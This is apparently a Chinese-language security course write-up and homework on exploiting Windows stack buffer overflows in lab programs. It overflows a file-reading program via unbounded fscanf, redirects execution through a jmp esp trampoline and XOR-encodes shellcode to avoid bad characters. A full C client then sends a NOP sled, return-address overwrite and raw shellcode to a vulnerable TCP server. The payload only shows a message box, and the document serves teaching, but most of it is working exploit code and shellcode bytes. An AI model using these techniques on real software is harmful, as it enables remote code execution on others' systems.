有下面一个程序

```c++
int main(void)
{
    char Password[]="crtest";
    char cPas[20]={20 *0};
    int iResult;
    FILE* pFile = NULL;
    pFile = fopen("pd.txt", "r");

    fscanf(pFile, "%s",cPas);
    iResult=strcmp(Password, cPas);
    if(iResult == 0)
    {
        printf("Welcom\r\n");
    }
    else
    {
        printf("fail\r\n");
    }

    //system("pause");
	  
    fclose(pFile);
    return 0;
}
```

我们需要把自己的代码注入到该程序的进程,让他弹出一个 Messagebox,不能用之前学过的方法,如远程线程注入,dll注入,跨进程写内存等暴力的方法,我们的要求是不改动该程序的进程和可执行文件来实现


思路:

我们要想该进程弹一个 MessageBox 或者说把 MessageBox  的代码注进去 ,首先第一步就是代码就能够进入到exe其中的进程里面

我们可以注意到该程序 读文件用的是  %s  ,意味着它的长度没有做限制,那我们可以在他读文件的时候,让他把我们的代码读进文件

####  1.代码读进进程

现在读取的txt 文本里面填充 nop,看看是否可以读进去


用od打开程序





可以看到数据可以读进来了



因此我们可以把代码放到文件就可以让他读进进程了

那么接下来就是让代码跑起来了

#### 2.运行代码

怎么让代码跑起来呢,从上图可以看到,数据是读到栈里面去了,现在我需要把流程从代码区转到栈上面去



跟流程转移相关的地方就是函数执行完   retn 返回,就是从栈上取地址执行代码



因为%s 没有长度限制 ,那么我们可以 扩充数据长度,到 0019ff34 (文件内容开始偏移 0x 24的位置) 去修改他的返回地址,这样这个地址填啥,eip 就会跑到 我们填的地址去执行代码,(虽然会破坏栈帧结构,不过不是我们关心的问题)



成功修改了返回地址



在 retn  下断点 ,f7 ,可以看到 成功执行了我们的预期的代码



#### 跳板   **FF E4**

,那么我们就可以在返回地址后面接着写我们的 MessageBox 的代码了 ,但是  0019ff38 毕竟是一个栈基址,极其不稳定,因此我们需要考虑怎么选一个相对稳定的地址,又因为我的的代码又在栈上,因此要找一个可以跳到栈上的地址

,例如有一条指令代码可以直接跳到栈上,我们这条指令为跳板

最经典的跳板指令 是  jmp esp (机器码: **FF E4**) 

相同的还有 :   

call  esp               jmp   eax(eax是栈地址)

正常的编译器是不会生成上面指令的,因此我们可以  不搜 jmp  esp 指令而搜她对应的机器码    FFE4  就可以了



如果在该模块找不到,可以到系统api去找,直接在进程中去找



win10有一个通用跳板,就是整个系统版本都可以用,但是不跨系统版本, 即 win7 跟 win10是不一样的

win10的通用跳板地址是     **0x7FFA4512**




把返回地址改到通用跳板再看一下



再运行发现可以运行代码了





#### 运行MessageBox

要运行MessageBox 需要一个对应的 shellcode

ShellCode.h

```c++
#pragma once
#include<windows.h>

#include <compressapi.h>
#pragma comment(lib, "Cabinet.lib")


typedef  FARPROC(WINAPI* PFN_GetProcAddress)(
    _In_ HMODULE hModule,
    _In_ LPCSTR lpProcName
);

typedef  FARPROC(WINAPI* PFN_LoadLibraryA)(
    _In_ LPCSTR lpLibFileName
);

typedef  BOOL(WINAPI* PFN_CreateDecompressor)(
    DWORD   Algorithm,
    PCOMPRESS_ALLOCATION_ROUTINES AllocationRoutines,
    PDECOMPRESSOR_HANDLE   DecompressorHandle
 );


typedef  BOOL(WINAPI* PFN_Decompress)(
    DECOMPRESSOR_HANDLE DecompressorHandle,
    LPCVOID             CompressedData,
    SIZE_T              CompressedDataSize,
    PVOID               UncompressedBuffer,
    SIZE_T              UncompressedBufferSize,
    PSIZE_T             UncompressedDataSize
 );


typedef  LPCVOID(WINAPI* PFN_VirtualAlloc)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
    );

typedef  BOOL(WINAPI* PFN_VirtualProtect)(
    _In_  LPVOID lpAddress,
    _In_  SIZE_T dwSize,
    _In_  DWORD flNewProtect,
    _Out_ PDWORD lpflOldProtect
    );

typedef int (WINAPI* PFN_MessageBoxA)
(
    _In_opt_ HWND hWnd,
    _In_opt_ LPCSTR lpText,
    _In_opt_ LPCSTR lpCaption,
    _In_ UINT uType
    );


struct  EnvironMent 
{
    PFN_GetProcAddress      pfnGetProcAddress;
    PFN_LoadLibraryA    pfnLoadLibraryA;
    PFN_CreateDecompressor   pfnCreateDecompressor;
    PFN_Decompress      pfnDecompress;
    PFN_VirtualAlloc    pfnVirtualAlloc;
    PFN_VirtualProtect  pfnVirtualProtect;
    PFN_MessageBoxA     pfnMessageBoxA;
};

void initEnvironment(EnvironMent* pEnv);
HMODULE GetKernel32();
HMODULE GetModuleBase();
void* MyGetProcAddress(HMODULE hMod, LPCSTR lpFunName);
```

ShellCode.cpp

```c++

#include "ShellCode.h"
#include <memory.h>


void Entry() {

    EnvironMent env;
    initEnvironment(&env);
    char szHelloShellcode[] = { 'H','e','l','l','o','S','h','e','l','l','c','o','d','e','\0' };
    env.pfnMessageBoxA(NULL, szHelloShellcode, NULL, MB_OK);
}


void initEnvironment(EnvironMent* pEnv)
{

    //获取 Kernel32 的地址
    HMODULE hKer = GetKernel32();

    //获取 GetProcAddress 地址
    char szGetProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };
    pEnv->pfnGetProcAddress = (PFN_GetProcAddress)MyGetProcAddress(hKer, szGetProcAddress);

    //获取LoadLibrary地址
    char szLoadLibrary[] = { 'L','o','a','d','L','i','b','r','a','r','y','A','\0' };
    pEnv->pfnLoadLibraryA = (PFN_LoadLibraryA)pEnv->pfnGetProcAddress(hKer, szLoadLibrary);

    //获取 user32.lib 地址
    char szUser32[] = { 'u','s','e','r','3','2','\0' };
    HMODULE hUser32 = (HMODULE)pEnv->pfnLoadLibraryA(szUser32);
    
    //获取 MessageBoxA 地址
    char szMessageBoxA[] = { 'M','e','s','s','a','g','e','B','o','x','A','\0' };
    pEnv->pfnMessageBoxA = (PFN_MessageBoxA)pEnv->pfnGetProcAddress(hUser32, szMessageBoxA);
    
}


//获取Kernel32地址
HMODULE GetKernel32()
{
    HMODULE hKer = NULL;
    __asm
    {
        mov     eax, dword ptr fs : [0x30]
        mov     eax, dword ptr[eax + 0x0C]
        mov     eax, dword ptr[eax + 0x0C]
        mov     eax, dword ptr[eax]
        mov     eax, dword ptr[eax]
        mov     eax, dword ptr[eax + 0x18]
        mov hKer, eax
    }
    return hKer;
}
//获取模块基址
HMODULE GetModuleBase()
{
    HMODULE hMod = NULL;
    __asm
    {
        mov     eax, dword ptr fs : [0x30]
        mov     eax, dword ptr[eax + 0x0C]
        mov     eax, dword ptr[eax + 0x0C]
        mov     eax, dword ptr[eax + 0x18]
        mov hMod, eax
    }
    return hMod;
}

void* MyGetProcAddress(HMODULE hMod, LPCSTR lpFunName)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)hMod;                        //DOS头
    PIMAGE_NT_HEADERS32 pNtHeader = (PIMAGE_NT_HEADERS32)((DWORD)hMod + pDosHeader->e_lfanew);      //NT头
    PIMAGE_DATA_DIRECTORY pExportDirectory = &pNtHeader->OptionalHeader.DataDirectory[0];        //导出表数据目录
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((DWORD)hMod + pExportDirectory->VirtualAddress);
    if ((DWORD)lpFunName > 0xffff)
    {
        //按照名称查找
        for (DWORD i = 0; i < pExport->NumberOfNames; i++)
        {
            char* pName = (char*)(*(DWORD*)((DWORD)hMod + pExport->AddressOfNames + i * 4) + (DWORD)hMod);
            if (strcmp(lpFunName, pName) == 0)
            {
                DWORD dwOrdinals = *(WORD*)((DWORD)hMod + pExport->AddressOfNameOrdinals + i * 2);
                return (void*)(*(DWORD*)((DWORD)hMod + pExport->AddressOfFunctions + dwOrdinals * 4) + (DWORD)hMod);
            }
        }
        return 0;
    }
    else
    {
        //按照序号查找
        DWORD dwOrdinals = (DWORD)lpFunName - pExport->Base;
        if (dwOrdinals >= pExport->NumberOfFunctions)
        {
            return 0;
        }
        return (void*)(*(DWORD*)((DWORD)hMod + pExport->AddressOfFunctions + dwOrdinals * 4) + (DWORD)hMod);
    }
    return 0;
}
```

C源码

```c++
unsigned AnsiChar data[392] = {
	0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x2C, 0x8D, 0x4D, 0xD4, 0xE8, 0x32, 0x00, 0x00, 0x00, 0x6A, 0x00, 
	0x6A, 0x00, 0x8D, 0x45, 0xF0, 0xC7, 0x45, 0xF0, 0x48, 0x65, 0x6C, 0x6C, 0x50, 0x6A, 0x00, 0xC7, 
	0x45, 0xF4, 0x6F, 0x53, 0x68, 0x65, 0xC7, 0x45, 0xF8, 0x6C, 0x6C, 0x63, 0x6F, 0x66, 0xC7, 0x45, 
	0xFC, 0x64, 0x65, 0xC6, 0x45, 0xFE, 0x00, 0xFF, 0x55, 0xEC, 0x8B, 0xE5, 0x5D, 0xC3, 0xCC, 0xCC, 
	0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x44, 0x53, 0x56, 0x57, 0x89, 0x4D, 0xF0, 0xC7, 0x45, 0xFC, 0x00, 
	0x00, 0x00, 0x00, 0x64, 0xA1, 0x30, 0x00, 0x00, 0x00, 0x8B, 0x40, 0x0C, 0x8B, 0x40, 0x0C, 0x8B, 
	0x00, 0x8B, 0x00, 0x8B, 0x40, 0x18, 0x89, 0x45, 0xFC, 0x8B, 0x5D, 0xFC, 0x8D, 0x4D, 0xBC, 0xC7, 
	0x45, 0xBC, 0x47, 0x65, 0x74, 0x50, 0xC7, 0x45, 0xC0, 0x72, 0x6F, 0x63, 0x41, 0xC7, 0x45, 0xC4, 
	0x64, 0x64, 0x72, 0x65, 0x8B, 0x43, 0x3C, 0x66, 0xC7, 0x45, 0xC8, 0x73, 0x73, 0xC6, 0x45, 0xCA, 
	0x00, 0x8B, 0x44, 0x18, 0x78, 0x03, 0xC3, 0x89, 0x45, 0xF4, 0x81, 0xF9, 0xFF, 0xFF, 0x00, 0x00, 
	0x76, 0x66, 0x8B, 0x48, 0x18, 0x33, 0xFF, 0x89, 0x4D, 0xF8, 0x85, 0xC9, 0x74, 0x44, 0x8B, 0x70, 
	0x20, 0x03, 0xF3, 0x8B, 0x06, 0x8D, 0x4D, 0xBC, 0x03, 0xC3, 0x8D, 0x9B, 0x00, 0x00, 0x00, 0x00, 
	0x8A, 0x11, 0x3A, 0x10, 0x75, 0x1A, 0x84, 0xD2, 0x74, 0x12, 0x8A, 0x51, 0x01, 0x3A, 0x50, 0x01, 
	0x75, 0x0E, 0x83, 0xC1, 0x02, 0x83, 0xC0, 0x02, 0x84, 0xD2, 0x75, 0xE4, 0x33, 0xC0, 0xEB, 0x05, 
	0x1B, 0xC0, 0x83, 0xC8, 0x01, 0x85, 0xC0, 0x74, 0x0D, 0x47, 0x83, 0xC6, 0x04, 0x3B, 0x7D, 0xF8, 
	0x72, 0xC1, 0x33, 0xC0, 0xEB, 0x28, 0x8B, 0x55, 0xF4, 0x8B, 0x42, 0x24, 0x8D, 0x04, 0x78, 0x0F, 
	0xB7, 0x0C, 0x18, 0x8B, 0x42, 0x1C, 0xEB, 0x0E, 0x8D, 0x4D, 0xBC, 0x2B, 0x48, 0x10, 0x3B, 0x48, 
	0x14, 0x73, 0xDF, 0x8B, 0x40, 0x1C, 0x8D, 0x04, 0x88, 0x8B, 0x04, 0x18, 0x03, 0xC3, 0x8B, 0x75, 
	0xF0, 0x8D, 0x4D, 0xCC, 0x51, 0x53, 0xC7, 0x45, 0xCC, 0x4C, 0x6F, 0x61, 0x64, 0x89, 0x06, 0xC7, 
	0x45, 0xD0, 0x4C, 0x69, 0x62, 0x72, 0xC7, 0x45, 0xD4, 0x61, 0x72, 0x79, 0x41, 0xC6, 0x45, 0xD8, 
	0x00, 0xFF, 0xD0, 0x8D, 0x4D, 0xE8, 0x89, 0x46, 0x04, 0x51, 0xC7, 0x45, 0xE8, 0x75, 0x73, 0x65, 
	0x72, 0x66, 0xC7, 0x45, 0xEC, 0x33, 0x32, 0xC6, 0x45, 0xEE, 0x00, 0xFF, 0xD0, 0x8D, 0x4D, 0xDC, 
	0xC7, 0x45, 0xDC, 0x4D, 0x65, 0x73, 0x73, 0x51, 0x50, 0x8B, 0x06, 0xC7, 0x45, 0xE0, 0x61, 0x67, 
	0x65, 0x42, 0xC7, 0x45, 0xE4, 0x6F, 0x78, 0x41, 0x00, 0xFF, 0xD0, 0x5F, 0x89, 0x46, 0x18, 0x5E, 
	0x5B, 0x8B, 0xE5, 0x5D, 0xC3, 0x00, 0x00, 0x00
};
```

16进制

```
558BEC83EC2C8D4DD4E8320000006A006A008D45F0C745F048656C6C506A00C745F46F536865C745F86C6C636F66C745FC6465C645FE00FF55EC8BE55DC3CCCC558BEC83EC44535657894DF0C745FC0000000064A1300000008B400C8B400C8B008B008B40188945FC8B5DFC8D4DBCC745BC47657450C745C0726F6341C745C4646472658B433C66C745C87373C645CA008B44187803C38945F481F9FFFF000076668B481833FF894DF885C974448B702003F38B068D4DBC03C38D9B000000008A113A10751A84D274128A51013A5001750E83C10283C00284D275E433C0EB051BC083C80185C0740D4783C6043B7DF872C133C0EB288B55F48B42248D04780FB70C188B421CEB0E8D4DBC2B48103B481473DF8B401C8D04888B041803C38B75F08D4DCC5153C745CC4C6F61648906C745D04C696272C745D461727941C645D800FFD08D4DE889460451C745E87573657266C745EC3332C645EE00FFD08D4DDCC745DC4D65737351508B06C745E061676542C745E46F784100FFD05F8946185E5B8BE55DC3000000
```

把对应的 16进制值拷贝到 文本




我们运行发现崩了,用od去进行调试




发现数据没有全部读进来,从中间截断了,因为 %s 读数据,碰到某些字符会被截断,这些字符我们称为坏字符(bad  char)

那上面问题处理方法就是  : 对内容先做处理,使其没有截断的字符,后面再还原,常用的方法就是找到一个异或值,每个字符异或之后没有坏字符,读进去之后在异或回来  

[📎求异或值工具.zip](./求异或值工具.zip)




坏字符




shellcode 机器码




求得异或之后做处理




得到新的数据




我们把代码加到文本，现在看看能否都进去




运行发现读文件是崩了，通过x64取调试


可以发现 1A0000已经不是栈空间了




因此说明， 0x7FFA4512   这个地址后读取的数据不能达到 1A0000，即后面只能读 F4个字节，远低于我们要读的字节

处理方法可移申请空间（比较麻烦）或者跳到上面去读文件，再解码













运行发现还是有问题，继续调试  发现在平栈时候产生了截断





因此去掉平栈




继续运行发现还是崩了，继续调试

对比一下异或后的值，发现第一个字符没有还原，可以知道异或是取得下标索引出错了，修改一下





修改一下索引







再运行，发现可以成功弹出来了




 流程转移 

如何执行栈上的代码？将程序的流程转移到栈上的代码运行。

●栈与流程转移相关指令：ret, 当输入等函数的缓冲区在栈上，那么如果栈溢出，将会覆盖掉栈上保留的其他值，导致ret的时候出错，那么是否也可以利用这点来进行代码的执行呢？


●首先，栈溢出，判断返回地址所处的栈位置，栈溢出覆盖它，那么当执行ret的时候，就会跳转到指定的地址。此时流程就通过ret转移过来了。


为何不直接将ret的地址填栈地址？

●众所周知，栈是一个及其不稳定的地方，随时在变动，如果溢出构造的时候所填的地址是栈的地址，当重启电脑，或者是重启软件，那么之前覆盖的地址就不再是shellcode的地址。




 漏洞的公布与 0 day 

●0 day：未被公布、未被修复的漏洞往往被称做 0 day。

●0 day 漏洞是危害最大的漏洞，当然对攻击者来说也是最有价值的漏洞。当 0 day 漏洞被曝光，那意味着全世界的黑客都知道这个漏洞，也懂得怎么去利用它，在厂商的官方补丁发布前，整个 Internet 的网络将处于高危预警状态。 0 day 曝光属于严重的安全事件。

●1 day：刚公开的漏洞

●n day： 公开了一段时间的漏洞


 作业 

 完成利用a程序的漏洞弹massagebox。 

请完成以下工作：

 分析研究exploit_me_A.exe的功能

定位并研究exploit_me_A.exe中的漏洞

编写exploit攻击程序，构造畸形数据包，使exploit_me_A.exe成功执行shellcode

完成分析报告

提交材料包括：

\1.       分析报告。

\2.       调试通过的exploit源代码（shellcode + 发送shellcode的代码）

\3.       可执行的exploit程序

（鼓励使用C语言）

提示：

exploit_me_A.exe 是一个服务器程序

[📎exploit_me_A.exe.zip](./exploit_me_A.exe.zip)


分析:


可以发现这是一个 tcp协议的服务器

| API名称     | API功能                     |
| ----------- | --------------------------- |
| WSAStartup  | 初始化 WSAStartup套接字库   |
| socket      | 创建 SOCKET                 |
| bind        | 绑定端口                    |
| listen      | 监听                        |
| accept      | 接受连接                    |
| recv        | 接收数据                    |
| closesocket | 关闭socket                  |
| WSACleanup  | 反初始化 WSAStartup套接字库 |

协议为:    IPPROTO_IP          SOCK_STREAM (数据流)  













可接收的包数据大小为 512 字节

缓冲区地址: 0019FBA4







srtcpy   缓冲区大小 200字节



发送端代码

```
    unsigned char szBuf[] = {
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,

    0x12, 0x45, 0xFA, 0x7F,

    0x83,0xEC,0x40,
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31, 0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B, 0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF, 0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B, 0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31, 0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4, 0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B, 0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2, 0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E, 0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64, 0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55, 0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF, 0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73, 0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x4D, 0x53, 0x46, 0x21, 0x68, 0x72, 0x6F, 0x6D, 0x20,
    0x68, 0x6F, 0x2C, 0x20, 0x66, 0x68, 0x48, 0x65, 0x6C, 0x6C, 0x31, 0xC9, 0x88, 0x4C, 0x24, 0x10,
    0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51, 0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55, 0x08
    };
```

客户端代码

```c++
#define _WINSOCK_DEPRECATED_NO_WARNINGS 

#include <iostream>
#include <string>

using namespace std;

#include <winsock2.h>
#include <windows.h>


int main()
{
    //创建socket
    SOCKET sockClient = socket(AF_INET,
        SOCK_STREAM, //数据流
        IPPROTO_IP   //协议
    );
    if (sockClient == INVALID_SOCKET)
    {
        cout << "socket failed" << endl;
        return 0;
    }

    //连接服务器
    sockaddr_in si;
    si.sin_family = AF_INET;
    si.sin_port = htons(0x1E61);
    si.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");

    int nRet = connect(sockClient, (sockaddr*)&si, sizeof(si));
    if (nRet == SOCKET_ERROR)
    {
        cout << "connect failed" << endl;
        return 0;
    }

    while (true)
    {
        //收发数据
        char szSend[MAXBYTE] = { 0x592 };
        cin >> szSend;

        //输入  exit  退出循环
        cin.getline(szSend, sizeof(szSend));
        if (string("exit") == szSend)
        {
            cout << "exit process" << endl;
            closesocket(sockClient);
            return 0;
        }


        //发送的畸形包数据
        char szData[] = {
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
               
                //跳板
                0x12, 0x45, 0xFA, 0x7F,

                 //抬栈
                0x83,0xEC,0x40,
            
                 //shellcode
                0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31, 0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
                0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B, 0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
                0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF, 0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
                0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B, 0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
                0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31, 0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
                0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4, 0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
                0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B, 0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
                0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2, 0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
                0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
                0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E, 0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
                0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64, 0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
                0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55, 0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
                0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF, 0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
                0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73, 0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
                0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x4D, 0x53, 0x46, 0x21, 0x68, 0x72, 0x6F, 0x6D, 0x20,
                0x68, 0x6F, 0x2C, 0x20, 0x66, 0x68, 0x48, 0x65, 0x6C, 0x6C, 0x31, 0xC9, 0x88, 0x4C, 0x24, 0x10,
                0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51, 0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55, 0x08
        };
   
        nRet = send(sockClient, szData, sizeof(szData), 0);
        if (nRet == SOCKET_ERROR)
        {
            cout << "send failed" << endl;
            return 0;
        }
#if 0

        char szBuff[MAXBYTE] = {};
        nRet = recv(sockClient, szBuff, sizeof(szBuff), 0);
        if (nRet == 0 || nRet == SOCKET_ERROR)
        {
            cout << "recv failed" << endl;
            return 0;
        }
        cout << szBuff << endl;
#endif // 0   
    }


}
```

